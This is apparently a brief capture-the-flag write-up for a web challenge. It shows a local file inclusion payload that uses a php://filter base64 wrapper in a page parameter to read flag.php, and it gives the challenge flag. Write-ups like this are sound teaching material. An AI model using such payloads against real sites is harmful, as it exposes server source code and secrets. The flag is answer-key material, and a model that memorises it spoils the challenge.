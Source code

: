 # Behind the Scene
"in this chall the web link we were given had a page= which load the php"
https://cybersecure-x-web2.chals.io/challenge.php?page=home.php
so there we have to pass the playload
so there i passed the flag.php and got bloacked so i did a resource filter
```
https://cybersecure-x-web2.chals.io/challenge.php?page=php://filter/convert.base64-encode/resource=flag.php
```
and got a cipher and here its what after decripting
![image](https://github.com/user-attachments/assets/aa582885-c9a7-41ef-a667-ad77e4b03467)

"and again passing it the path of the flag we get the flag"
![image](https://github.com/user-attachments/assets/e41b161d-6021-4975-9292-f023c96ac282)


### 🏁 Flag  
```
flag{basic_lfi_successful}

```
